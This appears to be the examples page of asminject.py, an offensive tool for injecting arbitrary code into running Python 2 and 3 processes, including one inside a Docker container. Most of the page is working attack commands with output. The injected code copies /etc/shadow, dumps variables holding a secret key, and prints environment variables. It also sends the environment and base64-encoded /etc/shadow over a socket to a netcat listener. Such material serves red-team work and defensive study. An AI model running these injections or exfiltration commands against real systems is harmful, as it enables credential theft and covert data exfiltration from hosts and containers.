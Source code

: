 # asminject.py examples - Python
* [Execute arbitrary Python code inside an existing Python 3 process](#execute-arbitrary-python-code-inside-an-existing-python-3-process)
* [Execute arbitrary Python code inside an existing Python 2 process](#execute-arbitrary-python-code-inside-an-existing-python-2-process)
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)
* [Interact with a container only via injected Python code](#interact-with-a-container-only-via-injected-python-code)

## Important

For all Python 3 examples, refer to the <a href="docs/specialized_options.md#specifying-non-pic-code">position-independent code discussion in the specialized options document</a>. Python 3 before 3.10 is usually not position-independent, but Python 3.10 and later usually are.

## Execute arbitrary Python code inside an existing Python 3 process

Launch a harmless Python process that simulates one with access to super-secret, sensitive data.

```
$ sudo python3 practice/python_loop.py

2022-05-12T19:46:46.245462 - Loop count 0
2022-05-12T19:46:51.253640 - Loop count 1
2022-05-12T19:46:56.264897 - Loop count 2
```

In a separate terminal, locate the process and inject some arbitrary Python code into it. Note the use of the `--non-pic-binary` option discussed in <a href="docs/specialized_options.md#specifying-non-pic-code">specialized options</a>, as this is required for Python 3.9 specifically. For other Python versions, you may or may not need to exclude the option.

This payload requires one variable: `pythoncode`, which should contain the Python script code to execute in the existing Python process.

```
# python3 ./asminject.py 2037475 execute_python_code.s \
   --arch x86-64 --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" \
   --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
   
...omitted for brevity...
```

Verify that the file has been copied:

```
# cat /tmp/bishopfox.txt 

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
```

## Execute arbitrary Python code inside an existing Python 2 process

If you're targeting a legacy Python 2 process instead of Python 3, you'll most likely need to omit the `--non-pic-binary` option, e.g. same as the previous example, except:

```
# python3 ./asminject.py 2144294 execute_python_code.s --relative-offsets-from-binaries \
   ---arch x86-64 -stop-method "slow" \
   --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
```

## Write all global or local variables to standard out

Use [the following Python code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```

e.g.

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

or

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Interact with a container only via injected Python code

This scenario simulates a container that either does not allow access to an interactive shell, or use of the interactive shell would trigger an unwanted response.

Start a Python 3 process in a Docker container:
```
# docker run -v $(pwd)/practice/python_loop.py:/tmp/python_loop.py --network=host -ti fedora

latest: Pulling from library/fedora
e1deda52ffad: Pull complete 
...omitted for brevity...
[root@3a78fa62ff5b /]# python3 /tmp/python_loop.py 
2022-06-29T21:30:19.037816 - Loop count 0
2022-06-29T21:30:24.043250 - Loop count 1
```

Locate the process ID for the Python process, then get a list of the binaries it has loaded:

```
# ps auxww | grep python                  

...omitted for brevity...
root     2378331  0.0  0.1  10148  7268 pts/0    S+   14:30   0:00 python3 /tmp/python_loop.py

# cat /proc/2378331/maps

556d84513000-556d84514000 r--p 00000000 08:01 624517                     /usr/bin/python3.10
...omitted for brevity...
7f8483e8b000-7f8483ee4000 r--p 00000000 08:01 626234                     /usr/lib64/libpython3.10.so.1.0
...omitted for brevity...
```

Copy any necessary binaries out of the container and generate offsets from them. For example:

```
# docker cp 3a78fa62ff5b:/usr/bin/python3.10 ./docker-fedora-python3.10

# docker cp 3a78fa62ff5b:/usr/lib64/libpython3.10.so.1.0 ./docker-fedora-libpython3.10

# ./get_relative_offsets.sh docker-fedora-python3.10 > relative-offsets-docker-fedora-python3.10.txt

# ./get_relative_offsets.sh docker-fedora-libpython3.10 > relative-offsets-docker-fedora-libpython3.10.txt
```

Inject the Python code into the target process using the `execute_python_code.s` payload, e.g.:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
	--arch x86-64 \
	--relative-offsets relative-offsets-docker-fedora-python3.10.txt \
	--relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
	--stop-method "slow" \
	--var pythoncode 'import os; print(os.environ);'
```

This should generate output in the terminal where the container was launched, e.g.:

```
2022-06-29T21:53:35.027900 - Loop count 278
environ({'HOSTNAME': '3a78fa62ff5b', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'})
2022-06-29T21:53:44.063159 - Loop count 279
```

To simulate a situation where the console is not visible, you can send Python code that will return the output to a TCP listener, e.g.:

```
% nc -nvlkp 7777
listening on [any] 7777 ...
```

Then, in another terminal:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import os; import socket; s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(f\"{os.environ}\".encode()); s.close()'
```

You should see the output in the `nc` listener, e.g.:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45528
environ({'HOSTNAME': 'copyroom', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'}
```

Copy a file out of the container:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import base64; import os; import socket; f = open(\"/etc/shadow\", mode=\"rb\"); content = f.read(); f.close(); encoded = base64.b64encode(content); s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(encoded); s.close();'
```

The base64-encoded version should appear in the netcat listener:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45530
cm9vdDohbG9ja2VkOjowOjk5O...omitted for brevity...
```